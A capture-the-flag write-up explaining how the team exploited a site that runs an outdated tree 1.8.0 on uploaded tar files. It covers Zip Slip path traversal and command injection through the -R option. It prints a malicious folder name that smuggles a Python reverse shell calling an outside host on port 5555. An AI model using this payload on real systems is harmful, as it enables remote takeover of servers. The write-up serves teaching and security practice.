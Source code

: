 # PWN: Stumped
solver: [N04M1st3r](https://github.com/N04M1st3r)  
writeup-writer: [L3d](https://github.com/imL3d)  

**Description:**
> Michael's computer science project shows the structure of tar files. It is using the tree command on the backend, and something just doesn't seem right...

**files (copy):** [app.py](files/app.py)  
**screenshot:** [homepage](images/stumpedhome.png)

In this challenge we receive a site (and it's code) that runs the unix [tree](https://linux.die.net/man/1/tree) command on an uploaded tar archive. We need to exploit this site and get user access.

## Solution 🌳
When uploading a tar archive to the site to extract, we can write to anywhere on our system via carefully naming our folders. For example, if we have an archive with the path in it (the folder names are `..`): `../../../folder1/file1.txt` we can write into a folder called `folder1` that is 3 directories above us. This is due to an exploit known as [Zip Slip](https://security.snyk.io/research/zip-slip-vulnerability).  
Our first attempt of breaching this machine was to try and override some important file, in order to get and RCE or expose this machine to the internet. This was incredibly difficult since we didn't really have any information whatsoever on where this code was running from, or what with what privileges - so we abandoned the idea.  
  
After messing around a bit more with the site we noticed something about the text on it - it was powered via the `tree` command on version `1.8.0`. Also when uploading a tar archive the tree command displays in HTML output it's version which was, as expected `1.8.0`. We started to check the versions on our personal machines and compare them with the server's version - and we found it was outdated! (Except one of our teammates who had a depricated version which bugged us for a while 😅). Could we someohow exploit this old version?????  
So, the search for the source code of this version began (or at least the release notes). Finding the entire source code was surprisingly difficult, but we managed to find it at the end -  [the source code](https://salsa.debian.org/debian/tree-packaging).  
  
Looking at the source code of the old version, in `html.c` the there is a flawed implementation for a recursive call for `tree` command:  
```C
hcmd = xmalloc(sizeof(char) * (49 + strlen(host) + strlen(d) + strlen((*dir)->name)) + 10 + (2*strlen(path)));
sprintf(hcmd,"tree -n -H \"%s%s/%s\" -L %d -R -o \"%s/00Tree.html\" \"%s\"\n", host,d+1,(*dir)->name,Level+1,path,path);
system(hcmd);
``` 
 We verified this with the changelog of the version that followed `1.8.0`:  
 ```
 - -R option now recursively calls the emit_tree() function rather than using
 system() to re-call tree.  Also removes a TODO.
 ```
 BINGO! the `-R` option uses `system`, and we can exploit that to inject our OWN bash code.  
  
In order to exploit this we need to name one of our inside folders in the archive in a special way, to include the code that we want to run on the server (we went with a python reverse shell in this case):  
```
In a tar folder, zip the following:

folder1->folder2->(injection folder)
injection folder name (the quotes are part of the name): ";python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("yourserver",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["x2fbinx2fsh","-i"]);' ;echo "
```
We we upload the tar archive with this folder we get a reverse shell, and then quickly after the flag🚩:
```
$ cat flag.txt
flag{n0t_5tump3d_4nym0r3!}
```
---
This was a creative challenge that reminded us about updating our versions and not letting strangers upload tar archives into our servers.  
Also props to  [N04M1st3r](https://github.com/N04M1st3r) for having the motivation to pull this one off ;)
  
![isitpwn.gif](images/isitpwn.gif)
